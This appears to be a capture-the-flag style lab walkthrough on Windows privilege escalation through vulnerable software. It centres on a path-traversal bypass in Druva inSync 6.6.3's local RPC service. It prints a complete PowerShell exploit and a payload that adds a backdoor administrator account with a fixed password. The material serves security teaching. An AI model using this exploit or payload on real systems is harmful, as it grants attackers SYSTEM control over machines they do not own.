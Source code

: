 # Abusing Vulnerable Software

### Unpatched Software

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the `wmic` tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):\
`wmic product get name,version,vendor`Remember that the `wmic product` command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.\
Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) or plain old [Google](https://www.google.com/), amongst many others.\
Using wmic and Google, can you find a known vulnerability on any installed product?

### Case Study: Druva inSync 6.6.3

The target server is running Druva inSync 6.6.3, which is vulnerable to privilege escalation as reported by [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/). The vulnerability results from a bad patch applied over another vulnerability reported initially for version 6.5.0 by [Chris Lyne](https://www.tenable.com/security/research/tra-2020-12).\
The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. If you aren't familiar with RPC, it is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.\
In the case of Druva inSync, one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command. Since the RPC server runs as SYSTEM, any command gets executed with SYSTEM privileges.\
The original vulnerability reported on versions 6.5.0 and prior allowed any command to be run without restrictions. The original idea behind providing such functionality was to remotely execute some specific binaries provided with inSync, rather than any command. Still, no check was made to make sure of that.\
A patch was issued, where they decided to check that the executed command started with the string `C:\ProgramData\Druva\inSync4\`, where the allowed binaries were supposed to be. But then, this proved insufficient since you could simply make a path traversal attack to bypass this kind of control. Suppose that you want to execute `C:\Windows\System32\cmd.exe`, which is not in the allowed path; you could simply ask the server to run `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe` and that would bypass the check successfully.\
To put together a working exploit, we need to understand how to talk to port 6064. Luckily for us, the protocol in use is straightforward, and the packets to be sent are depicted in the following diagram:\
\
The first packet is simply a hello packet that contains a fixed string. The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us. The last two packets are used to send the length of the command and the command string to be executed, respectively.\
Initially published by Matteo Malvica [here](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html), the following exploit can be used in your target machine to elevate privileges and retrieve this task's flag. For your convenience, here is the original exploit's code:\
`$ErrorActionPreference = "Stop"`

`$cmd = "net user pwnd /add"`

`$s = New-Object System.Net.Sockets.Socket(`\
`[System.Net.Sockets.AddressFamily]::InterNetwork,`\
`[System.Net.Sockets.SocketType]::Stream,`\
`[System.Net.Sockets.ProtocolType]::Tcp`\
`)`\
`$s.Connect("127.0.0.1", 6064)`

`$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")`\
``$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")``\
`$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");`\
`$length = [System.BitConverter]::GetBytes($command.Length);`

`$s.Send($header)`\
`$s.Send($rpcType)`\
`$s.Send($length)`\
`$s.Send($command)`

You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at `C:\tools\Druva_inSync_exploit.txt`). Note that the exploit's default payload, specified in the `$cmd` variable, will create a user named `pwnd` in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:\
`net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add`This will create user `pwnd` with a password of `SimplePass123` and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user `pwnd` exists and is part of the administrators' group:\
Command Prompt\
`PS C:\> net user pwnd`\
`User name pwnd`\
`Full Name`\
`Account active Yes`\
`[...]Local Group Memberships *Administrators *Users`\
`Global Group memberships *None`

As a last step, you can run a command prompt as administrator:\


When prompted for credentials, use the `pwnd` account. From the new command prompt, you can retrieve your flag from the Administrator's desktop with the following command `type C:\Users\Administrator\Desktop\flag.txt`.
